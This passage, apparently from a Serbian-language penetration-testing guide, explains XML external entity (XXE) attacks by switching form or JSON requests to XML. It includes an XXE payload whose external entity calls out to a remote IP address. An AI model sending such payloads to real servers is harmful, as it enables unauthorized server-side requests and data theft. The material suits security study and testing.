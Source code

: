 Pročitajte sledeći post da **saznate kako iskoristiti XXE za uploadovanje PDF fajla**:

{% content-ref url="file-upload/pdf-upload-xxe-and-cors-bypass.md" %}
[pdf-upload-xxe-and-cors-bypass.md](file-upload/pdf-upload-xxe-and-cors-bypass.md)
{% endcontent-ref %}

### Content-Type: Od x-www-urlencoded do XML

Ako POST zahtev prihvata podatke u XML formatu, možete pokušati da iskoristite XXE u tom zahtevu. Na primer, ako normalan zahtev sadrži sledeće:

```xml
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Zatim biste mogli podneti sledeći zahtev, sa istim rezultatom:

```xml
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

### Content-Type: Od JSON-a do XEE

Da biste promenili zahtev, možete koristiti Burp ekstenziju pod nazivom "**Content Type Converter**". [Ovde](https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html) možete pronaći ovaj primer:

```xml
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
"firstName": "Avinash",
"lastName": "",
"country": "United States",
"city": "ddd",
"postalCode": "ddd"
}}}
```

```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]>
<root>
<root>
<firstName>&xxe;</firstName>
<lastName/>
<country>United States</country>
<city>ddd</city>
<postalCode>ddd</postalCode>
</root>
</root>
```
